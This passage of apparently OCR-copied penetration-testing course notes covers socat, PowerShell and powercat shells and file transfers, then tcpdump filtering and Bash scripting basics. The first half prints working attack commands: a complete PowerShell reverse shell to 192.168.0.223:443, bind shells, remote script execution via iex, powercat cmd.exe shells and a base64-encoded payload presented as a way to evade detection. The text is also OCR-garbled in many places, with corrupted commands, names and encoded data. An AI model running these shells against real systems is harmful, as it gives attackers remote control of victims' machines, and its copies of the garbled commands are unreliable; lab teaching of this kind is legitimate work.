
We will use the OPENSSL-LISTEN option to create the listener on port 443, cert=bi nd_shel. l.. pem
to specify our certificate file, verify to disable SSL verification, and fork to spawn a child process
once a connection is made to the listener:

```
kali@kali : ~$ sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```

We will use - to transfer data between STDIO and the remote host, OPENSSL to establish a remote
SSL connection to Alice's listener on 192.168.0.223:443, and verify=0 to disable SSL certificate
verification:

```
c:\socat>socat - OPENSSL:192.168.0.223:443,verify=0
id
uid=0(root) gid=0(root) groups=0(root),141(kaboxer)
whoami
root
```

### PowerShell and Powercat

Windows PowerShell  is a task-based command line shell and scripting language. It is designed
specifically for system administrators and power-users to rapidly automate the administration of
multiple operating systems (Linux, macOS, Unix, and Windows) and the processes related to the
applications that run on them.

Needless to say, PowerShell is a powerful tool for penetration testing and can be installed on (or is
installed by default on) various versions of Windows. It is installed by default on modern Windows
platforms beginning with Windows Server 2008 R2 and Windows 7. 

Windows PowerShell 5.0 runs on the following versions of Windows:

- Windows Server 2016, installed by default
- Windows Server 2012 R2/Windows Server 2012/Windows Server 2008 R2 with Service Pack
  1 /Windows 8.1 /Windows 7 with Service Pack 1 (install Windows Management Framework
  5.0 to run it)

Windows PowerShell 4.0 runs on the following versions of Windows:

- Windows 8.1 /Windows Server 2012 R2, installed by default

- Windows 7 with Service Pack 1 /Windows Server 2008 R2 with Service Pack 1 (install
  Windows Management Framework 4.0 to run it)

Windows PowerShell 3.0 runs on the following versions of Windows:

- Windows 8/Windows Server 2012, installed by default
- Windows 7 with Service Pack 1 /Windows Server 2008 R2 with Service Pack 1 /2 (install
  Windows Management Framework 3.0 to run it)

PowerShell maintains an execution policy that determines which type of PowerShell scripts (if any)
can be run on the system. The default policy is "Restricted", which effectively means the system
will neither load PowerShell configuration files nor run PowerShell scripts. For the purposes of this
module, we will need to set an ·unrestricted» execution policy on our Windows cl ient machine. To
do this, we click the Windows Start button, right-click the Windows PowerShe/1 application and
select Run as Administrator. When presented with a User Account Control prompt, select Yes and
enterSet-ExecutionPolicy Unrestricted:

```
PS C:\Windows\system32> Set-ExecutionPolicy Unrestricted

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
http://go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): Y

PS C:\Windows\system32> Get-ExecutionPolicy
Unrestricted
PS C:\Windows\system32>
```

#### Powershell File Transfers

```
C:\Users\sherwinowen\Desktop>powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.0.223/wget.exe','C:\Users\sherwinowen\Desktop\wget.exe')"

C:\Users\sherwinowen\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 3208-00E9

 Directory of C:\Users\sherwinowen\Desktop

12/02/2020  03:05 PM    <DIR>          .
12/02/2020  03:05 PM    <DIR>          ..
12/02/2020  08:03 AM               925 HWID.log
12/02/2020  03:05 PM           308,736 wget.exe
               2 File(s)        309,661 bytes
               2 Dir(s)  40,070,180,864 bytes free

C:\Users\sherwinowen\Desktop>wget -V
GNU Wget 1.9.1

Copyright (C) 2003 Free Software Foundation, Inc.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

Originally written by Hrvoje Niksic <hniksic@xemacs.org>.
```


#### PowerShell Reverse Shells

```
kali@kali : ~$ sudo nc -lvnp 443                   
[sudo] password for kali: 
listening on [any] 443 ...
```


```
$client = New-Object System.Net.Sockets.TCPClient('192.168.0.223',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0 .. 65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);	
	$sendback = (iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush();
}
$client.Close();
```


```
C:\Windows\system32>powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.0.223',443); $stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

This one-liner may seem very arduous at first glance, but there is no need to memorize it; we would
likely copy-and-paste this type of command (replacing the IP and port number) during a live
penetration test.

Finally, we receive the reverse shell with Netcat:

```
$ sudo nc -lvnp 443                   
[sudo] password for kali: 
listening on [any] 443 ...
connect to [192.168.0.223] from (UNKNOWN) [192.168.0.198] 50691
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::f122:da68:b61a:befe%6
   IPv4 Address. . . . . . . . . . . : 192.168.0.198
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.0.1
```

#### PowerShell Bind Shells

```
C:\Users\offsec> powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```


```
kali@kali:-$ nc -nv 192.168.0.198 443 
(UNKNOWN) [192.168.0.198] 443 (https) open
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::f122:da68:b61a:befe%6
   IPv4 Address. . . . . . . . . . . : 192.168.0.198
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.0.1
```


### Powercat

Download powercat

```
PS C:\Users\Offsec> iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

Now that our script is loaded, we can execute powercat as follows:

```
PS C:\Users\offsec> powercat
You must select either client mode (-c) or listen mode (-l).
```

#### Powercat File Transfers

First, we run a Netcat listener on Alice's computer:

```
kali@kali:~$ sudo nc -lvnp 443 > receiving_powercat.ps1
[sudo] password for kali: 
listening on [any] 443 ...
```

Next, we wlll invoke powercat on Bob's computer. The -c option speclfies client mode and sets
the listening IP address, -p specifies the port number to connect to, and -i indicates the local file
that will be transferred remotely:

```
PS C:\powercat> powercat -c 192.168.0.223 -p 443 -i C:\powercat\powercat.ps1
```

Finally, Alice wi ll kill the Netcat process and check that the file has been recelved:

```
^C
kali@kali:~$ ls receiving_powercat.psl
receiving_powercat.psl
```

#### Powercat Reverse Shells

We begin with the Netcat listener on Alice's machine:

```
kali@kali:~$ sudo nc -lvp 443
listening on [any] 443 ...
```

Next, Bob will use powercat to send a reverse shell. In this example. the -e option specifies the
application to execute (cmd.exe) once a connection is made to a listening port:

```
PS C:\Users\offsec> powercat -c 192.168.0.223 -p 443 -e cmd.exe
```

Finally, Alice's Netcat listener will receive the shell:

```
kali@kali:~$ sudo nc -lvp 443                          
listening on [any] 443 ...
192.168.0.198: inverse host lookup failed: Unknown host
connect to [192.168.0.223] from (UNKNOWN) [192.168.0.198] 51267
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```


#### Powercat Bind Shells

By contrast, a powercat bind shell is started on Bob's side with a powercat listener. We will use the
-t option to create a listener, -p to specify the listening port number, and -e to have an application
(cmd.exe) executed once connected:

```\
PS C:\Users\offsec> powercat -l -p 443 -e cmd.exe
```

Next. Alice will c reate a Netcat connection to the bind shell on Bob's computer:

```
kali @kali:-$ nc 192.168.0.198 443                                                          Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

#### Powercat Stand-Alone Payloads


```
kali @kali:-$ sudo nc -lnvp 443
listening on [any] 443 ...
```


Powercat can also generate stand-alone payloads. In the context of powercat, a payload is a set
of powershell instructions as well as the portion of the powercat script itself that only includes the
features requested by the user. Let's experiment with payloads in this next example.

After starting a listener on Alice's machine, we create a stand-alone reverse shell payload by adding
the -g option to the previous powercat command and redirecting the output to a file. This will
produce a powershell script that Bob can execute on his machine:

```
PS C:\powercat> powercat -c 192.168.0.223 -p 443 -e cmd.exe -g > reverseshell.ps1

PS C:\powercat> .\reverseshell.ps1
```

It's worth noting that stand-alone payloads li ke this one might be easily detected by IDS.
Specifically, the script that is generated is rather large with roughly 300 lines of code. Moreover, it
also contains a number of ha rdcoded strings that can easily be used in signatures for malicious
activity. While the identification of any specific signature is outside of scope of this module, it is
sufficient to say that plaintext malicious code such as this will likely have a poor success rate and
will likely be caught by defensive software solutions.

We can attempt to overcome this problem by making use of PowerShell's ability to execute Base64
encoded commands. To generate a stand-alone encoded payload, we use the -ge option and once
again redirect the output to a file:

```
PS C:\Users\offsec> powercat -c 10.11.0,4 -p 443 -e cmd.exe -ge > encodedreverseshett.
psl
```

The file w ill contain an encoded string that can be executed using the PowerShell -E
(EncodedCommand) option. However, since the -E option was designed as a way to submit
complex commands on the command line, the resulting encodedreverseshell.ps1 script can not be
executed in t he same way as our unencoded payload. Instead, Bob needs to pass the whole
encoded string to powershetl.exe -E:

- Open the encodedreverseshett.psl in notepad 
- Copy, paste and run the content

```
PS C: \Users\offsec> powershell.exe -E ZgB1AG4AVw88AGkAbwBuACAAUwB8AHIAZQBhAG8AMQBfAFM
AZQB8AHUAcAAKAHsACgAKACAAIAAgACAAcABhAHIAVQBtACgAJABGAHUAbgBjAFMAZQB0AHUAcABWAGEAcgBzA
CkACgAgACAAIAAgACQAVwAsACQAbAAsACQAcAAsACQAdAAgAD8AIAAkAEVAdQBuAGMAUwBtAHQAdQBwAFVAVQB
yAHMACgAgACAAIAAgAGkAZgAoACQAZwBsAGSAVgBhAGwAOgBWAGUAcgBiAGSAcwBtACkAewAkAFVAZQByAGIAb
wBzAGUAIAA9ACAAJABUAHIAdQBtAH8ACgAgACAAIAAgACQARgB1AG4AVwBWAGEAcgBzACAAPQAgAEAAewB9AAo
AIAAgACAAIABpAGVAKAAhACQAbAApAAoAIAAgACAAIAB7AAoAIAAgACAAIAAgACAAJABGAHUAbgBjAFVAVQByA
HMAWWAiAGwAigBdACAAPQAgACQARgBhAGwAcwBtAAoAIAAgACAAIAAgACAAJABTAG8AVwBrAGUAdAAgAD8AIAB
OAGUAdwAtAE8AVgBqAGUAVwB8ACAAUwBSAHMAdABtAG8ALgBOAGUAdAAuAFMAbwBjAGsAZQB8AHMALgBUAGMAc
ABDAGwAaQBtAG4AdAAKACAAIAAgACA
```

### Wireshark


### Tcpdump

Tcpdump  is a text-based network sniffer that is streamlined, powerful, and flexible despite the
lack of a graphical interface. It is by far the most commonly-used command-line packet analyzer
and can be found on most Unix and Linux operating systems, but local user permissions determine
the ability to capture network traffic.

```
kali@kali:~$ sudo tcpdump -r password_cracking_filtered.pcap
reading from file password_cracking_filtered.pcap, l i nk-type EN10MB (Ethernet)
08:51:20.800917 IP 208.68.234.99.60509 > 172.16.40.10.81: Flags [ SJ , seq 1855084074, w
in 14600, options [mss 1460,sackOK,TS val 25538253 ec r 0,nop,wscale 7], length 0
08:51:20.800953 IP 172.16.40.10.81 > 208.68.234.99.60509: Flags [S.J, seq 4166855389,
ack 1855084075, win 14480, options [mss 1460,sackOK,TS val 71430591 ecr 25538253,nop,w
scale 4], length 0
08:51:20.801023 IP 208.68.234.99.60509 > 172.16.40.10.81: Flags [ SJ , seq 1855084074, w
in 14600, options [mss 1460,sackOK,TS val 25538253 ecr 0,nop,wscale 7], length 0
08:51:20.801030 IP 172.16.40.10.81 > 208.68.234 .99.60509: Flags [S.], seq 4166855389,
ack 1855084075, win 14480, options [mss 1460,sackOK,TS val 71430591 ecr 25538253,nop,w
scale 4], length 0
08:51:20.801048 IP 208.68.234.99.60509 > 172.16.40.10.81: Flags [SJ , seq 1855084074, w
in 14600, options [mss 1460,sackOK,TS val 25538253 ecr 0,nop,wscale 7], length 0
08:51:20.801051 IP 172.16.40.10.81 > 208.68.234.99.60509: Flags [S.J, seq 4166855389,
ack 1855084075, win 14480, options [mss 1460,sackOK,TS val 71430591 ecr 25538253,nop,w
scale 4], length 0
```

#### Filtering Traffic

```
kali@kali: ~$ sudo tcpdump -n -r password_cracking_filtered.pcap | awk -F" " '{print $3}' | sort | uniq -c | head

12324	172.16.40.10.81
   18	208.68.234.99.32768
   18	208.68.234.99.32769
   18	208.68.234.99.32770
   18	208.68.234.99.32771
   18	208.68.234.99.32772
   18	208.68.234.99.32773
....
```

In order to filter from the command line, we w ill use the source host (src host) and destination
host (dst host) filters to output only source and destination traffic respectively. We can also filter
by port number (-n port 81) to show both source and destination traffic against port 87. Let's try
those filters now:

```
$ sudo tcpdump -n src host 172.16.48.18 -r password_cracking_filtered.pcap
08:51:20.801051 IP 172.16.40.10.81 > 208.68.234.99.60509: Flags [S. J , seq 4166855389,
ack 1855084075, win 14480, options [mss 1460,sackOK, TS val 71430591 ecr 25538253,nop,w
scale 4), length 0
08:51:20.802053 IP 172.16.40.10.81 > 208.68.234.99.60509: Flags [.], ack 89, win 905,
options [nop,nop,TS val 71430591 ecr 25538253] , length 0

$ sudo tcpdump -n dst host 172,16.48.10 -r password_cracking_filtered.pcap
08:51:20.801048 IP 208.68.234.99.60509 > 172.16.40.10.81: Flags [SJ , seq 1855084074, w
in 14600, options [mss 1460,sackOK,TS val 25538253 ecr 0,nop,wscale 7), length 0
08:51:20.802026 IP 208.68.234.99.60509 > 172.16.40.10.81: Flags [.], ack 4166855390, w
in 115, options [nop,nop,TS val 25538253 ecr 71430591], length 0

$ sudo tcpdump - n port 81 -r password_cracking_filtered.pcap
08:51:20.800917 IP 208.68.234.99.60509 > 172.16.40.10.81: Flags [SJ , seq 1855084074, w
in 14600, options [mss 1460,sackOK, TS val 25538253 ecr 0,nop,wscale 7), length 0
08:51:20.800953 IP 172.16.40.10.81 > 208.68.234.99.60509: Flags [S.], seq 4166855389,
ack 1855084075, win 14480, options [mss 1460,sackOK,TS val 71430591 ecr 25538253,nop,w
scale 4), length 0
```


To dump the captured traffic, we will use the ASCll 108 format: -X option to print the packet data in both HEX and ASCII format:

```
kali@ka1i:-$ sudo tcpdump -nX -r password_cracking_filtered.pcap
reading from file sample.pcap, link-type EN10MB (Ethernet)
14:29:06.244202 IP 192.168.1.105.55261 > 192.168.1.2.53: 42559+ A? www.metasploit.com. (36)
	0x0000:  4500 0040 22b4 0000 8011 943d c0a8 0169  E..@"......=...i
	0x0010:  c0a8 0102 d7dd 0035 002c 8bf8 a63f 0100  .......5.,...?..
	0x0020:  0001 0000 0000 0000 0377 7777 0a6d 6574  .........www.met
	0x0030:  6173 706c 6f69 7403 636f 6d00 0001 0001  asploit.com.....
14:29:06.305998 IP 192.168.1.2.53 > 192.168.1.105.55261: 42559 1/0/0 A 216.75.1.230 (52)
	0x0000:  4500 0050 58f6 0000 3f11 9eeb c0a8 0102  E..PX...?.......
	0x0010:  c0a8 0169 0035 d7dd 003c 70d6 a63f 8180  ...i.5...<p..?..
	0x0020:  0001 0001 0000 0000 0377 7777 0a6d 6574  .........www.met
	0x0030:  6173 706c 6f69 7403 636f 6d00 0001 0001  asploit.com.....
	0x0040:  c00c 0001 0001 0000 003c 0004 d84b 01e6  .........<...K..
14:29:06.315134 IP 192.168.1.105 > 216.75.1.230: ICMP echo request, id 1, seq 3, length 40
	0x0000:  4500 003c 22b5 0000 8001 7bc9 c0a8 0169  E..<".....{....i
	0x0010:  d84b 01e6 0800 4d58 0001 0003 6162 6364  .K....MX....abcd
	0x0020:  6566 6768 696a 6b6c 6d6e 6f70 7172 7374  efghijklmnopqrst
	0x0030:  7576 7761 6263 6465 6667 6869            uvwabcdefghi
```

#### Advanced Header Filtering

## Bash Scripting

```
kali@kali:~$ cat ./hello-world.sh
#!/bin/bash
# Hello World Bash Script
echo "Hello World!"
```

This script has several components worth explaining:

- Line 1: #! is commonly known as the shebang, 111 and is ignored by the Bash interpreter. The
  second part,Jbin/bash, is the absolute path 112 to the interpreter, which is used to run the
  script. This is what makes this a ·sash script" as opposed to another type of shell script, like
  a ·c Shell script", for example.

- Line 2: # is used to add a comment, so al l text that follows it is ignored.

- Line 3: echo ·Hello World uses the echo Linux command utility to print a given string to the
  terminal, which in this case is "Hello World!".

  

Next, let's make the script executable and run it

```
kali@kali:~$ chmod +x hello-world.sh
kali@kali:~$ ./hello-world.sh
Hello World!
```

### Variables

Variables are named places to temporarily store data. We can set (or "declare") a variable, which
assigns a value to it, or read a variable. which will "expand" or ·resolve· it to its stored value.

We can declare variable values in a number of ways. The easiest method is to set the value directly
with a simple name=vafue declaration. Notice that there are no spaces before or after the "=" sign:

```
kali@kali:~$ first_name=Good
kali@kali:~$ last_name=Hacker
kali @kali: ~$ echo $first.name $last.name
Good Hacker
```

This was not necessarily what we expected.To fix this, we can use either single quotes (') or double
quotes ( 11) to enclose our text. However, Bash treats single and double quotes differently. When
encountering single quotes, Bash interprets every enclosed character literally. When enclosed in
double quotes, all characters are viewed literally except "$'', '"", and "\" meaning variables will be
expanded in an initial substitution pass on the enclosed text.
A simple example will help clarify this:

```
kali @kali:~$ greeting='Hello World'

kali@kali:~$ echo $greeting
Hello World

kali@kali:~$ greeting2="New $greeting"

kali@kali:~$ echo $greeting2
New Hello World
```

We can also set the value of the variable to the result of a command or program. This is known as
command substitution,  which allows us to take the output of a command or program (what
would normally be printed to the screen) and have it saved as the value of a variable.

To do this, place the variable name in parentheses"()", preceded by a"$" character:

```
kali@kali:~$ user=$(whoami)

kali@kali:~$ echo $user
kali
```

It is also important to note that command substitution happens in a subshell and changes to va riables in the subshel l will not alter variables from the master process. This is demonstrated in the following example:

```
kali@kali :~$ cat ./subshell.sh
#!/bin/bash -x

var1=value1
echo $var1

var2=value2
echo $var2

$(var1=newvar1)
echo $var1

'var2=newvar2'
echo $var2

kali@kali:~$ ./subshell.sh
var1=value1
+ echo value1
value1
+ var2=value2
+ echo value2
value2
++ var1=newvar1
+ echo value1
value1
++ var2=newvar2
+ echo value2
value2
kali@kali : ~$
```

In this example, first note that we changed the shebang, adding in the-x flag. This instructed Bash
to print additional debug output. so we could more easily see the commands that were executed
and their results. As we view this output. notice that commands preceded with a single·+· character
were executed in the current shell and commands preceded with a double"++· were executed in a
subshell.

This allows us to clearly see that the second declaratf ons of var7 and var2 happened inside a
subshell and did not change the values in the current shell as the initial declarations did.

### Arguments

Not all Bash scripts require arguments. 117 However, it is extremely important to understand how
they are interpreted by Bash and how to use them. We have already executed Linux commands
with arguments. For example, when we run the command ls -l /var/log, both-land /var/log
are arguments to the ls command.

Bash scripts are no different; we can supply command-line arguments and use them in our scripts:

```
kali@kali:~$ cat ./arg.sh
#!/bin/bash
echo "The first two arguments are $1 and $2"

kali@ka1i:~$ chmod +x ./arg.sh

kali@kali:~$ ./arg.sh hello there
The first two arguments are hello and there
```

**Special shell variables**

| Variable  | Description                                      |
| :-------: | :----------------------------------------------- |
|    $0     | The name of the Bash script                      |
|  $1 -$9   | The first 9 arguments to the Bash script         |
|    $#     | Number of arguments passed to the Bash script    |
|    $@     | All arguments passed to the Bash script          |
|    $?     | The exit status of the most recently run process |
|    $$     | The process ID of the current script             |
|   $USER   | The username of the user running the script      |
| $HOSTNAME | The hostname of the machine                      |
|  $RANDOM  | A random number                                  |
|  $UNENO   | The current line number in the script            |

### Reading User Input

Command-line arguments are a form of user input, but we can also capture interactive user input
while a script is running with the read command. In this example, we will use read to capture user
input and assign it to a variable:

```
kali @kali:~$ cat ./input.sh
#!/bin/bash

echo "Hello there, would you like to learn how to hack: Y/N?"

read answer

echo "Your answer was $answer"

kali@kali:~$ chmod +x ./input.sh

kali@kali:~$ ./input.sh
Hello there, would you like to learn how to hack: Y/N?
Y
Your answer was Y
```

We can alter the behavior of the read command with various command line options. Two of the
most commonly used options include -p, which allows us to specify a prompt, and -s. which makes
the user input silent. The latter is ideal for capturing user credentials:

```
kali@kali: -$ cat ./input2.sh
#!/bin/bash
# Prompt the user for credentials

read -p ' Username: ' username
read -sp 'Password: ' password

echo "Thanks, your creds are as follows: "$username" and" $password

kali@kali:-$ chmod +x ./input2.sh

kali@kali: -$ ./input2.sh
Username: kali
Password:
Thanks, your creds are as follows: kali and nothing2see!
```


### If, Else, Elif Statements

Conditional statements allow us to perform different actions based on different conditions. The
most common conditional Bash statements include if, else, and elif.

The if statement is relatively simple-it checks to see if a condition is true-but lt requires a very
specific syntax. Pay careful attention to this syntax, especially the use of required spaces:

```
if [<some test>]
then
	<perform an action>
fi
```

```
kali@kali:-$ cat ./if.sh
#!/bin/bash
# if statement example

read -p "What is your age: "age

if [ $age -lt 16 ]
then
	echo "You might need parental permission to take this course!"
fi

kali@kali:-$ chmod +x ./if.sh

kali@kali:~$ ./if.sh
What is your age: 15
You might need parental permission to take this course!
```

Some of the most common operators include:

|       Operator        | Description                                    |
| :-------------------: | :--------------------------------------------- |
|      !EXPRESSION      | The EXPRESSION is false.                       |
|       -n STRING       | STRING length is greater than zero             |
|       -zSTRING        | The lenath of STRING is zero (empty)           |
|  STRING1 != STRING2   | STRING1 is not eQual to STRING2                |
|   STRING1 = STRING2   | STRING1 is eaual to STRING2                    |
| INTEGER1 -eq INTEGER2 | INTEGER1 is equal to INTEGER2                  |
| INTEGER1 -ne lNTEGER2 | INTEGER1 is not equal to INTEGER2              |
| INTEGER1-gt lNTEGER2  | INTEGER1 is greater than INTEGER2              |
| INTEGER1 -It INTEGER2 | INTEGER1 is less than lNTEGER2                 |
| INTEGER1 -ge INTEGER2 | INTEGER1 is greater than or equal to INTEGER 2 |
| INTEGER1 -le INTEGER2 | INTEGER1 is less than or equal to INTEGER 2    |
|        -d FILE        | FILE exists and is a directory                 |
|        -e FILE        | FILE exists                                    |
|        -r FILE        | FILE exists and has read permission            |
|        -s FILE        | FILE exists and it is not emotv                |
|        -w FILE        | FILE exists and has write permission           |
|        -x FILE        | FILE exists and has execute permission         |

We can also perform a certain set of actions if a statement is true and another set if it is false. To
do this, we can use the else statement, which has the following syntax:

```
if [ <some test> J
then
	<perform action>
else
	<perform another action>
fi
```

Let's extend our previous ·age· example to include the else statement:

```
kali@kali: ~$ cat ./else.sh
#!/bin/bash
# else statement example

read -p "What is your age: "age

if [ $age -lt 16 ]
then
	echo "You might need parental permission to take this course!"
else
	echo "Welcome to the course!"
fi

kali@kali:~$ chmod +x ./else.sh

kali@kali:~$ ./else.sh
What is your age: 21
Welcome to the course!
```

The if and else statements only allow two code execution branches. We can add addit ional
branches with the elif statement which uses the following pattern:

```
if [ <some test>]
then
	<perform action>
elif [ <some test>]
then
	<perform different action>
else
	<perform yet another different action>
fi
```

```
kali@kali: ~$ cat ./elif.sh
#!/bin/bash
# elif example

read -p "What is your age:" age
if [ $age -lt 16 ]
then
	echo "You might need parental permission to take this course!"
elif [ $age -gt 60 ]
then
	echo "Hats off to you, respect!"
else
	echo "Welcome to the course!"
fi

kali@kali:-$ chmod +x ./elif.sh

kali@kali:~$ ./elif.sh
What is your age: 65
Hats off to you, respect!
```

### Boolean Logical Operations

Boolean logical operators, like AND (&&) and OR (II) are somewhat mysterious because Bash
uses them in a variety of ways.

One common use is in command lists, which are chains of commands whose flow is controlled by
operators. The T (pipe) symbol is a commonly-used operator in a command list and passes the
output of one command to the input of another. Similarly, boolean log ical operators execute
commands based on whether a previous command succeeded (or returned True or 0) or failed
(returned False or non-zero).

Let's take a look at the AND (&&) boolean operator first, which executes a command only if the
previous command succeeds (or returns True or 0):

```
kali@kali:~$ user2=kali

kali@kali:~$ grep $user2 /etc/passwd && echo "$user2 found!"
kali:x:1000:1000:,,,:/home/kali:/bin/bash
kali found!

kali@kali:~$ user2=bob

kali@kali:-$ grep $user2 /etc/passwd && echo "$user2 found!"
```

In this example, we first assigned the username we are searching for to the user2 variable. Next,
we use the grep command to check if a certain user is listed in the /etc/passwd file, and if it is,
grep returns True and the echo command is executed. However, when we try searching for a user
that we know does not exist in the /etc/passwd file, our echo command is not executed.

When used in a command list the OR (II) operator is the opposite of AND(&&); it executes the next
command only if the previous command failed (returned False or non-zero):

```
kali@kali:-S echo $user2
bob
kali@kali:~$ grep $user2 /etc/passwd && echo "$user2 found!" || echo "$user2 not found! "
bob not found!
```

These operators can also be used in a test to compare variables or the results of other tests. When
used this way, AND (&&) combines two simple conditions. and if they are both true, the combined
result is success (or True or O).

Consider this example:

```
kali@kali:~$ cat ./and.sh
#/bin/bash
# and example

if [ $USER == 'kali' ] && [ $HOSTNAME == 'kali' ]
then
	echo "Multiple statements are true!"
else
	echo "Not much to see here ... "
fi

kali@kali:~$ chmod +x ./and.sh

kali@kali:~$ ./and.sh
Multiple statements are true!

kali@kali:~$ echo $USER && echo $HOSTNAME
kali
kali
```

When used in a test the OR (II) boolean operator is used to test one or more conditions, but only
one of them has to be true to count as success.

Let's take a look at an example:

```
kali@kali:~$ cat ./or.sh
#!/bin/bash
# or example

if [ $USER== 'kali' ] || [ $HOSTNAME == 'pwn' ]
then
	echo "One condition is true, this line is printed"
else
	echo "You are out of luck!"
fi

kali@kali:~$ chmod +x ./or.sh

kali@kali:~$ ./or.sh
One condition is true, this line is printed

kali@kali:~$ echo $USER && echo $HOSTNAME
kali
kali
```


### For Loops

```
for var-name in <list>
do
	<action to perform>
done
```

```
kali@kali:-$ for ip in $(seq 1 10); do echo 192.168.1.$ip; done
192.168.1.1
192.168.1.2
192.168.1.3
192.168.1.4
192.168.1.5
192.168.1.6
192.168.1.7
192.168.1.8
192.168.1.9
192.168.1.10

# OR

kali@kali:-$ for ip in {1..10}; do echo 192.168.1.$ip; done                                192.168.1.1
192.168.1.2
192.168.1.3
192.168.1.4
192.168.1.5
192.168.1.6
192.168.1.7
192.168.1.8
192.168.1.9
192.168.1.10
```

### While Loops

While loops are also fairly common and execute code while an expression is true. While loops have
a simple format and, like if, use the square brackets ([]) for the test:

```
while [ <some test>]
do
	<perform an action>
done
```

```
kali @kali:-$ cat ./while.sh
#!/bin/bash
# while loop example

counter=l

while [ $counter -lt 10 ]
do
	echo "10.11.l.$counter"
	((counter++))
done

kali@kali:-$ chmod +x while.sh

kali@kali:-$ ./while.sh
10.11.1.1
10.11.1.2
10.11.1.3
10.11.1.4
10.11.1.5
10.11.1.6
10.11.1.7
10.11.1.8
10.11.1.9
```

```
kali @kali:-$ cat ./while2.sh
#!/bin/bash
# while loop example

counter=l

while [ $counter -lt 10 ]
do
	echo "10.11.l.$counter"
	((counter++))
done

kali@kali:-$ chmod +x while2.sh

kali@kali:-$ ./while2.sh
10.11.1.1
10.11.1.2
10.11.1.3
10.11.1.4
10.11.1.5
10.11.1.6
10.11.1.7
10.11.1.8
10.11.1.9
```

### Functions

In terms of Bash scripting, we can think of a function as a script within a script, which is useful
when we need to execute the same code multiple times in a script. Rather than re-writing the same
chunk of code over and over, we just write it once as a function and then call that function as
needed.

Put another way, a function is a subroutine, or a code block that implements a set of operations-a
Nblack box· that performs a specified task. Functions may be written in two different formats. The
first format is more common to Bash scripts:

```
function function_name {
commands ...
}
```

The second format is more familiar to C programmers:

```
function_name () {
commands ...
}
```

The formats are functionally identical and are a matter of personal preference. Let's look at a simple
example:

```
kali@kali:~$ cat ./func.sh
#!/bin/bash
# function example
print_me () {
	echo "You have been printed!"
}

print_me

kali@ka1i:~$ chmod +x ./func.sh

kali@kali:~$ ./func.sh
You have been printed!
```

Functions can also accept arguments:

```
kal i@kali:~$ cat ./funcarg.sh
#!/bin/bash
# passing arguments to functions

pass_arg() {
	echo "Today's random number is: $1" 
}

pass_arg $RANDOM

kali@kali:~$ chmod +x ./funcarg.sh

kali@kali:~$ ./funcarg.sh
Today's random number is: 25207
```

In addition to passing arguments to Bash functions, we can of course return values from Bash
functions as well. Bash functions do not actually allow you to return an arbitrary value in the
traditional sense. Instead, a Bash function can return an exit status (zero for success, non-zero for
failure) or some other arbitrary value that we can later access from the $? global variable ( see Table
4). Alternatively, we can set a global variable inside the function or use command substitution to
simulate a traditional return.
Let's look at a simple example that returns a random number into$?:

```
kali@kali:~$ cat funcrvalue.sh
#!/bin/bash
# function return value sample

return_me() {
	echo "Oh hello there, I'm returning a random value!"
	return $RANDOM
}
return_me
echo "The previous function returned a value of $? "

kali@kali:~$ chmod +x ./funcrvalue.sh

kali@kali:~$ ./funcrvalue.sh
Oh hello there, I'm returning a random value!
The previous function returned a value of 198

kali@kali:~$ ./funcrvalue . sh
Oh hello there, I'm returning a random value!
The previous function returned a value of 313
```

Now that we have a basic understanding of variables and functions, we can dig deeper and discuss
variable scope. 

The scope of a variable is simply the context in which it has meaning. By default, a variable has a
global scope, meaning it can be accessed throughout the entire script. In contrast, a local variable
can only be seen within the function, block of code, or subshell in which it is defined. We can
#overlay" a global variable, giving it a local context, by preceding the declaration with the local
